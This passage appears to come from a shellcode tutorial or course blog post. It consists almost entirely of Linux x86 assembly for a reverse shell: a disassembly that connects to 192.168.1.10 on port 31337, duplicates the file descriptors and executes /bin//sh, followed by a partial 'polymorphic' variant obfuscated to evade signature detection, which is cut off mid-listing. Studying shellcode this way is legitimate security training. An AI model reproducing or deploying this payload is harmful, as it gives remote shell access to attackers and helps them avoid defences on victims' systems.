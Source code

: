  8048071:       6a 02                   push   0x2
 8048073:       89 e1                   mov    ecx,esp
 8048075:       cd 80                   int    0x80
 8048077:       89 c6                   mov    esi,eax
 8048079:       b0 66                   mov    al,0x66
 804807b:       31 db                   xor    ebx,ebx
 804807d:       b3 02                   mov    bl,0x2
 804807f:       68 c0 a8 01 0a          push   0xa01a8c0
 8048084:       66 68 7a 69             pushw  0x697a
 8048088:       66 53                   push   bx
 804808a:       fe c3                   inc    bl
 804808c:       89 e1                   mov    ecx,esp
 804808e:       6a 10                   push   0x10
 8048090:       51                      push   ecx
 8048091:       56                      push   esi
 8048092:       89 e1                   mov    ecx,esp
 8048094:       cd 80                   int    0x80
 8048096:       31 c9                   xor    ecx,ecx
 8048098:       b1 03                   mov    cl,0x3
0804809a <dupfd>:
 804809a:       fe c9                   dec    cl
 804809c:       b0 3f                   mov    al,0x3f
 804809e:       cd 80                   int    0x80
 80480a0:       75 f8                   jne    804809a
 80480a2:       31 c0                   xor    eax,eax
 80480a4:       52                      push   edx
 80480a5:       68 6e 2f 73 68          push   0x68732f6e
 80480aa:       68 2f 2f 62 69          push   0x69622f2f
 80480af:       89 e3                   mov    ebx,esp
 80480b1:       52                      push   edx
 80480b2:       53                      push   ebx
 80480b3:       89 e1                   mov    ecx,esp
 80480b5:       52                      push   edx
 80480b6:       89 e2                   mov    edx,esp
 80480b8:       b0 0b                   mov    al,0xb
 80480ba:       cd 80                   int    0x80
{% endhighlight %}

Polymorphic version:

{% highlight js %}
global _start			

section .text
_start:
	xor    eax,eax
 	xor    ebx,ebx
 	xor    ecx,ecx
	xor    edx,edx
	mov    al,0x66
	mov    bl,0x1
	push   ecx
	push   0x6
	push   0x1
	push   0x2
	mov    ecx,esp
	int    0x80
	mov    esi,eax
	shl    eax,2
	shr    eax,4
	mov    al,0x66
	xor    ebx,ebx
	mov    bl,0x2
	mov    edi,0x1162317c
	add    edi,0x77667744